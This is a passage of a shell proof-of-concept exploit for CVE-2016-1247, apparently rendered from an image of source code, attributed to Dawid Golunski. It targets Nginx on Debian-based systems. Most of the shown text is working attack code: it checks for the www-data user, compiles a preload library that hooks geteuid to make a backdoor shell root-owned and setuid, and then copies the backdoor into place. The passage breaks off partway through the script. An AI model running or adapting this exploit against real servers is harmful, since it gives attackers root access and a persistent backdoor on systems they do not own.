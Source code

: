 ```sh
echo -e "\033[94m \nNginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) \nnginxed-root.sh (ver. 1.0)\n"
echo -e "Discovered and coded by: \n\nDawid Golunski \nhttps://legalhackers.com \033[0m"

# Args
if [ $# -lt 1 ]; then
	echo -e "\n[!] Exploit usage: \n\n$0 path_to_error.log \n"
	echo -e "It seems that this server uses: `ps aux | grep nginx | awk -F'log-error=' '{ print $2 }' | cut -d' ' -f1 | grep '/'`\n"
	exit 3
fi

# Priv check

echo -e "\n[+] Starting the exploit as: \n\033[94m`id`\033[0m"
id | grep -q www-data
if [ $? -ne 0 ]; then
	echo -e "\n[!] You need to execute the exploit as www-data user! Exiting.\n"
	exit 3
fi

# Set target paths
ERRORLOG="$1"
if [ ! -f $ERRORLOG ]; then
	echo -e "\n[!] The specified Nginx error log ($ERRORLOG) doesn't exist. Try again.\n"
	exit 3
fi

# [ Exploitation ]

trap ctrl_c INT
# Compile privesc preload library
echo -e "\n[+] Compiling the privesc shared library ($PRIVESCSRC)"
cat <<_solibeof_>$PRIVESCSRC
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
#include <dlfcn.h>
       #include <sys/types.h>
       #include <sys/stat.h>
       #include <fcntl.h>

uid_t geteuid(void) {
	static uid_t  (*old_geteuid)();
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if ( old_geteuid() == 0 ) {
		chown("$BACKDOORPATH", 0, 0);
		chmod("$BACKDOORPATH", 04777);
		unlink("/etc/ld.so.preload");
	}
	return old_geteuid();
}
_solibeof_
/bin/bash -c "gcc -Wall -fPIC -shared -o $PRIVESCLIB $PRIVESCSRC -ldl"
if [ $? -ne 0 ]; then
	echo -e "\n[!] Failed to compile the privesc lib $PRIVESCSRC."
	cleanexit 2;
fi


# Prepare backdoor shell
cp $BACKDOORSH $BACKDOORPATH
```